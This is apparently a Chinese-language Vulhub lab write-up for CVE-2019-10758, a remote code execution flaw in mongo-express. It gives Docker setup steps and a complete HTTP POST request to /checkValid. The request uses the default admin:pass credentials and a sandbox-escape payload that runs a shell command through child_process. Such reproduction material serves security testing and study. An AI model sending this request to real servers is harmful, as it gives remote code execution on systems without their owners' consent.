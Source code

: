 # mongo-express 远程代码执行漏洞 CVE-2019-10758

## 漏洞描述

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意node.js代码。

## 环境搭建

Vulhub执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

直接发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

![image-20220226224214673](images/202202262242754.png)

命令`touch /tmp/success`已成功执行：

![image-20220226224250076](images/202202262242130.png)